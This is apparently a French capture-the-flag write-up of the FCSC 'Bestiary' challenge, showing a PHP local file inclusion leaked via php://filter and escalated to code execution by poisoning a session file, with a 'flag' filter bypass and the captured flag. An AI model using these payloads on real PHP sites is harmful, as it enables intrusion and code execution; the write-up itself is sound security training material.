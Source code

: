 # Bestiary - 100 pts


# Énoncé 
> On vous demande simplement de trouver le flag.
>
>URL : http://challenges2.france-cybersecurity-challenge.fr:5004/
>
>Format du flag : FCSC{xxxx}
>

## Introduction

Ce challenge porte sur une faille de type LFI.


## Résolution

Dans un premier temps, regardons ce qu'il se passe sur la page web :

![bestiary](../images/Bestiary.jpg	)

Nous avons une liste déroulante permettant de choisir un "monstre" et d'afficher sa description.

en essayant de lancer la requête **?monster=test** on se rend compte de ce qu'il se passe, il y a un include("test") qui se fait.

```
Warning: include("test"): failed to open stream: No such file or directory in /var/www/html/index.php on line 33

Warning: include(): Failed opening '"test"' for inclusion (include_path='.:/usr/local/lib/php') in /var/www/html/index.php on line 33
```

Ayant déjà eu affaire à cette faille sur un autre challenge, j'ai pensé de suite à l'utilisation d'un PHP filter, pour récupérer le code source de la page (encodé en base 64) grâce à ce payload :

```
?monster=**php://filter/read=convert.base64-encode/resource=login.php**
```

Une fois décodé, on a le code suivant :

```
<?php
	**session_save_path("./sessions/")**;
	session_start();
	include_once(**'flag.php'**);
?>
[...]
<?php
	$monster = NULL;

	if(isset($_SESSION['monster']) && !empty($_SESSION['monster']))
		$monster = $_SESSION['monster'];
	if(isset($_GET['monster']) && !empty($_GET['monster']))
	{
		$monster = $_GET['monster'];
		$_SESSION['monster'] = $monster;
	}

	if($monster !== NULL && **strpos($monster, "flag") === False**)
		include($monster);
	else
		echo "Select a monster to read his description.";
?>
[...]

```

On remarque prémièrement qu'on a un fichier **flag.php**, on pourrait essayer de l'afficher de la même manière mais le soucis est qu'on a la fonction **strpos()** qui vérifie que la requête ne contient pas le mot "flag".

On voit également que PHP sauvegarde la session temporairement dans **"./sessions"**. Ce qui signifie que la dernière requête passée y est enregistrée.

Il nous suffit alors de récupérer notre cookie de session, ici **PHPSESSID=77a92d88fc8020c7059ac9c78243c53d**

Le dernier payload qu'on passe dans la requête se retrouve dans le fichier **./sessions/sess_77a92d88fc8020c7059ac9c78243c53d**

On comprend donc que pour récupérer le flag il va falloir réaliser 2 actions :

Premièrement, injecter dans l'URL la commande PHP voulue :

```
http://challenges2.france-cybersecurity-challenge.fr:5004/?monster=<?php include("fl"."ag.php"); echo $flag; ?>
```
Et enfin, inclure notre page de session, avec le code qu'on vient d'injecter qui va par conséquent être exécuté, et nous afficher le flag :

```
http://challenges2.france-cybersecurity-challenge.fr:5004/index.php?monster=./sessions/sess_77a92d88fc8020c7059ac9c78243c53d
```
**FLAG :  _FCSC{83f5d0d1a3c9c82da282994e348ef49949ea4977c526634960f44b0380785622}_**
